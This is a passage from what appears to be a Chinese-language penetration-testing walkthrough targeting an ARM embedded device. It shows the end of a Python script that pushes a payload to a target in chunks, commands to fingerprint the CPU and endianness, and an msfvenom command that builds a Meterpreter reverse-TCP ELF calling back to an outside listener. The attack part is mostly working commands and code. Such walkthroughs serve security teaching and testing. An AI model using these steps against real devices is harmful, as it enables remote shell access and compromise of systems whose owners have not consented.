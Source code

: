 ```
    if not result:
        print('send again')
        result = sendPayload(target, chunk)
    if result:
        print(str(i) + '/' + str(hex_string_len))
        i += 120
    else:
        print('Request failed.')
        sys.exit(1)

print('Over')

```  
#### 1) 生成 Payload 文件  
  
直接使用 MSF  进行生成，我们需要知道 CPU架构、32 还是 64 位处理器、大端还是小端  
  
类似 arch、lscpu 这些命令在当前环境中都没有，可以通过下面的命令进行查看  
```
cat /proc/cpuinfo

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4ENfUthEazAgeaGjL17utI8pSgWaN8R1fXlYKh2VBeL6L5U2jCickPiaTw/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到 CPU 为 ARM926EJ-S rev 5 (v5l) ，经过查询是一款 ARM 架构，32 位的CPU  
  
大小端这个事我们可以从服务器上下载几个可执行文件，看看它们是大端还是小端的  
  
以 /bin/da_info 和 /bin/busybox 为例  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EWY3icjdSAwBgthanLwjP86SunxFLFs0ux91oicTfiaBrVkHzQjibPv3NbQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EOmpRLleDWIXO792C7o46oLQfvpLEeFcRlaSic72o1XhopWhP81Y2Q0w/640?wx_fmt=png&from=appmsg "")  
  
  
通过 Ghidra 进行分析  
> https://github.com/NationalSecurityAgency/ghidra  
  
  
直接将文件拖进 Ghidra 就可以了，此步骤建议在虚拟机中进行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EPIVY1ENHR4PMQhh7n78V8z6clCUS0bJncJOMciaOreSsewjHicQM6UIQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZT30hrVgRecIoBI1YvCwgBqZkkGQa4EDVLt0LhcMEn2RfiabBiaibTM2owoicMuOPtAVntC2WSTdYUZh69txQAGRw/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到，显示的都是 LE ，小端  
  
接下来通过 msfvenom 生成 payload  
```
msfvenom -p linux/armle/meterpreter/reverse_tcp -a armle RHOST=192.168.1.125 RPORT=443 --platform linux -f elf -o payload.elf

```  
  